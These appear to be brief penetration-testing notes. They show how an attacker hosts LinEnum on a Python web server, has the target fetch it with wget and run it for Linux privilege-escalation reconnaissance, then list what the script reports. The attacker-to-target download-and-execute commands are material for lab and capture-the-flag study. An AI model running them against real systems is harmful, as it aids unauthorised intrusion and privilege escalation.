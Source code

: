 					Option 1
-- Attacker:
	-- python3 -m http.server 8000			starts webserver for listening

-- Target:
	-- wget ip:8000/documents/LinEnum.sh	download file on target
	-- chmod +x LinEnum.sh 					makes file executable
	-- ./LinEnum.sh							runs file


					Option 2(less privileges)
-- Attacker:
	--Copy LinEnum code to Target		      (.sh Extension)
	--chmod +x LinEnum.sh				   makes file executable
	--/LinEnum.sh						    runs file


					LineEnum Output
-- kernal information
-- read/write files
-- suid files
-- crontab contents
